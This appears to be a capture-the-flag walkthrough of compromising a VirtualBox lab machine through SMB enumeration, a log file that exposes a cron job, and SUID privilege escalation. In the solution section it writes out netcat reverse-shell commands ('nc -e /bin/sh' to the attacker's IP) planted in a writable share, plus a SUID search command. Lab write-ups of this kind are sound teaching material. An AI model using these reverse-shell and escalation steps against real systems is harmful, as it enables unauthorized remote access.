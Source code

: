 

### **Netdiscover**

<img src="images/Screen Shot 2019-09-15 at 11.57.20 PM.png" alt="Screen Shot 2019-09-15 at 11.57.20 PM"  />

We use the tools called netdiscover scan hosts, we found the 192.168.0.107 is our target virtualbox host ip.

------

### **Namp**

<img src="images/Screen Shot 2019-09-15 at 11.57.43 PM.png" alt="Screen Shot 2019-09-15 at 11.57.43 PM" style="zoom:50%;" />

We found some services  <u>HTTP</u>, <u>SMB</u>, <u>MYSQL</u> 

------

### Enum4linux

<img src="images/Screen Shot 2019-09-16 at 12.07.28 AM.png" alt="Screen Shot 2019-09-16 at 12.07.28 AM" style="zoom:50%;" />

<img src="images/Screen Shot 2019-09-16 at 12.08.48 AM.png" alt="Screen Shot 2019-09-16 at 12.08.48 AM" style="zoom:100%;" />

When we see smbd service , we use enum4linux scan smbd service config and basic infomation, we not found user but we find a smb share filefolder: <u>*IPC$*</u> , <u>ITDEPT</u> and user: <u>*dawn, ganimedes*</u>

------

### Smbclient

<img src="images/Screen Shot 2019-09-16 at 12.13.21 AM.png" alt="Screen Shot 2019-09-16 at 12.13.21 AM" style="zoom:50%;" />

By using smbclient connect , We could found this existed **<u>web-control, product-control</u>**.

------

### Msf dir_scanner

<img src="images/Screen Shot 2019-09-16 at 12.31.41 AM.png" alt="Screen Shot 2019-09-16 at 12.31.41 AM" style="zoom:100%;" />

At First, I intend to try a dict by kail linux to do a basic dir scanner, if not successfully , i will try a big dir dict by **gobuster** , luckily, we find /logs is existd.

------

### Solution

<img src="images/Screen Shot 2019-09-16 at 12.36.41 AM.png" alt="Screen Shot 2019-09-16 at 12.36.41 AM" style="zoom:100%;" />

<img src="images/Screen Shot 2019-09-16 at 12.39.01 AM.png" alt="Screen Shot 2019-09-16 at 12.39.01 AM" style="zoom:50%;" />


When we link to this <u>192.168.0.107/logs/</u>, We can find some file。By reading these files, this management.log is a log file,  we can find target host exists a crontab job chmod 777 product-control, web-control, so that we can reverse shell by these two file with samba share file folder.

`echo 'nc -e /bin/sh 192.168.0.105 2333' > web_product`

`echo 'nc -e /bin/sh 192.168.0.105 2334' > product_product`

wait a little time , then crontab job run.....

<img src="images/Screen Shot 2019-09-16 at 12.52.30 AM.png" alt="Screen Shot 2019-09-16 at 12.52.30 AM" style="zoom:50%;" />

<img src="images/Screen Shot 2019-09-16 at 12.52.38 AM.png" alt="Screen Shot 2019-09-16 at 12.52.38 AM" style="zoom:100%;" />


we use dawn users, we do some privilege escalate.

`find / -perm -u=s 2>/dev/null`

<img src="images/Screen Shot 2019-09-16 at 1.23.17 AM.png" alt="Screen Shot 2019-09-16 at 1.23.17 AM" style="zoom:100%;" />

<img src="images/Screen Shot 2019-09-16 at 1.24.03 AM.png" alt="Screen Shot 2019-09-16 at 1.24.03 AM" style="zoom:100%;" />

So we use /usr/bin/zsh to do it.

<img src="images/Screen Shot 2019-09-16 at 1.26.25 AM.png" alt="Screen Shot 2019-09-16 at 1.26.25 AM" style="zoom:100%;" />

congratulation... then we go into /root, can see this flag. 

<img src="images/Screen Shot 2019-09-16 at 1.28.54 AM.png" alt="Screen Shot 2019-09-16 at 1.28.54 AM" style="zoom:50%;" />

------

OS: Other ways,  i will append in my github if i can find themselves.T_T

------

**That' all , Thanks for your watching**
